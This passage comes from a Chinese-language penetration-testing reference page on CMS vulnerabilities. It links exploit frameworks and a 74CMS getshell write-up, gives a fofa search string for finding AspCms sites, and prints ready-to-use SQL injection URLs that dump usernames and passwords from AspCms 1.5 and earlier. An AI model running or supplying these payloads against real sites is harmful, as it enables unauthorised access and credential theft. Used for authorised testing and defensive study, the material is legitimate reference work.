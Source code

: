 
* **[邮服](#邮服)**
    * [Exchange](#exchange)
    * [Coremail](#coremail)
    * [亿邮电子邮件系统](#亿邮电子邮件系统)

* **[Other](#other)**

---

## 各类论坛/CMS框架

**什么是 CMS**

内容管理系统 (CMS) 是一种存储所有数据 (如文本,照片,音乐,文档等) 并在你的网站上提供的软件. 它有助于编辑,发布和修改网站的内容.

**工具包**
- [SecWiki/CMS-Hunter](https://github.com/SecWiki/CMS-Hunter) - CMS 漏洞测试用例集合
- [Q2h1Cg/CMS-Exploit-Framework](https://github.com/Q2h1Cg/CMS-Exploit-Framework) - 一款 CMS 漏洞利用框架，通过它可以很容易地获取、开发 CMS 漏洞利用插件并对目标应用进行测试。
- [Lucifer1993/AngelSword](https://github.com/Lucifer1993/AngelSword) - Python3 编写的 CMS 漏洞检测框架
- [foospidy/web-cve-tests](https://github.com/foospidy/web-cve-tests) - A simple framework for sending test payloads for known web CVEs.

### 74CMS

**骑士 CMS 6.0.48以下文件包含getshell**
- 相关文章
    - [骑士cms文件包含getshell复现](https://mp.weixin.qq.com/s/erBzIapx1bz8f1ArWwwBwQ)

---

### AEN

**相关工具**
- [0ang3el/aem-hacker](https://github.com/0ang3el/aem-hacker)

---

### aspcms

> fofa: Powered by AspCms2

**AspCms1.5 版以下注入漏洞**
- POC | Payload | exp
    ```bash
    # 爆用户名 EXP
    http://www.***.com/plug/productbuy.asp?id=2+union+select+1,2,LoginName,4,5,6,7,8,9,10,11,12,13,14,15,16,17,18,19,20,21,22,23,24,25,26,27,28,29,30,31,32,33,34,35,36,37+from+AspCms_User+where+userid=1

    这是爆 ID=1 的账户名，如果发现权限不够可以往后试 2,3,4………..

    # 爆密码
    http://www.xxx.com/plug/productbuy.asp?id=2+union+select+1,2,password,4,5,6,7,8,9,10,11,12,13,14,15,16,17,18,19,20,21,22,23,24,25,26,27,28,29,30,31,32,33,34,35,36,37+from+AspCms_User+where+userid=1
